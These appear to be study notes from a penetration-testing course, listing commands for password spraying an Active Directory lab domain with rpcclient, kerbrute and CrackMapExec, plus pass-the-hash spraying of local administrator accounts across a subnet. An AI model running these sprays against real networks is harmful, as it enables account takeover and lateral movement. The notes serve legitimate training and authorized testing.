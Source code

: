 
## **Using a Bash one-liner for the Attack (Rpcclient)**

```Shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

## **Using Kerbrute for the Attack**

```Shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

![[Notion/CPTS/RESOURCES/image 1 10.png|image 1 10.png]]

## **Using CrackMapExec & Filtering Logon Failures**

```Shell
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

## **Validating the Credentials with CrackMapExec**

```Shell
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

## **Local Admin Spraying with CrackMapExec**

- Explanation
    
    **Someti**mes **we** **ma**y **onl**y **retri**eve **th**e **NTL**M **has**h **fo**r **th**e **loca**l **adminis**trator **accou**nt **fro**m **th**e **loca**l **SA**M **datab**ase. **In** **thes**e **instan**ces, **we** **ca**n **spra**y **th**e **NT** **has**h **acro**ss **an** **enti**re **subn**et (**or** **multi**ple **subne**ts) **to** **hun**t **fo**r **loca**l **adminis**trator **accou**nts **wit**h **th**e **sam**e **passw**ord **se**t.  
    

```Shell
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```